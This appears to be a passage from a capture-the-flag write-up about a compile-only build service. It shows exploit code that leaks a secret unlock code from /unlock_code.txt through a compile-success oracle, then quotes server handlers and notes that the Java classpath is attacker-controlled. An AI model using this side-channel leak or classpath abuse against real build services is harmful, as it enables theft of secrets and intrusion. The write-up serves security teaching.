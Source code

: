 ```python
  62   │     https://rpis.ec/blog/hxp-26c3-ctf-compilerbot/ using gcc.
  63   │     '''
  64   │     # Leak the UUID in /unlock_code.txt
  65   │     uuid_dash_indices = (8, 13, 18, 23)
  66   │     unlock_code_progress = []
  67   │     hexchars = b'0123456789abcdef'
  68   │     for i in range(36):
  69   │         # Add dashes in the right places.
  70   │         if i in uuid_dash_indices:
  71   │             unlock_code_progress.append(b'-')
  72   │             continue
  73   │
  74   │         # Search for the hexadecimal digit at the index.
  75   │         for guess in hexchars:
  76   │             attempt = LEAK_TEMPLATE.replace('__OFFSET__', str(i)).replace("__GUESS__", str(guess))
  77   │             request = generate_request('c', attempt.encode())
  78   │             p.sendline(request)
  79   │             line = p.recvline()
  80   │             response = parse_response(line)
  81   │             if 'success' in response['result']:
  82   │                 unlock_code_progress.append(bytes([guess]))
  83   │                 break
  84   │
  85   │     return b''.join(unlock_code_progress).decode()
```

Now that we have the unlock code, we can interact with the other processors. The python processor
isn't quite useful as this just compiles the user input to a code object but never actually
executed.

```python
 127   │ def process_python(user_input, working_dir):
 128   │     # Test if building the Python bytecode succeeds.
 129   │     try:
 130   │         compile(user_input, 'build.py', 'exec')
 131   │         return True
 132   │     except:
 133   │         return False
```

The Java processor is more interesting as the user input is unzipped into the temporary directory
and a Main.java file is compiled with the classpath being fully controlled.

```python
 107   │ def process_java(user_input, working_dir):
 108   │     # Write the user input to main.zip
 109   │     main_zip = "{}/main.zip".format(working_dir)
 110   │     open(main_zip, 'wb').write(user_input)
 111   │
 112   │     # Unzip the file containing the Java sources.
 113   │     code = subprocess.call(["unzip", "-d", working_dir, main_zip],
 114   │                            stdout=subprocess.DEVNULL,
 115   │                            stderr=subprocess.DEVNULL)
 116   │     if code != 0:
 117   │         return False
 118   │
 119   │     # Test if building the file with javac succeeds.
 120   │     main_java = "{}/Main.java".format(working_dir)
 121   │     classpath = "{}/*".format(working_dir)
 122   │     code = subprocess.call(["javac", "-cp", classpath, main_java],
 123   │                            stdout=subprocess.DEVNULL,
 124   │                            stderr=subprocess.DEVNULL)
 125   │     return code == 0
```
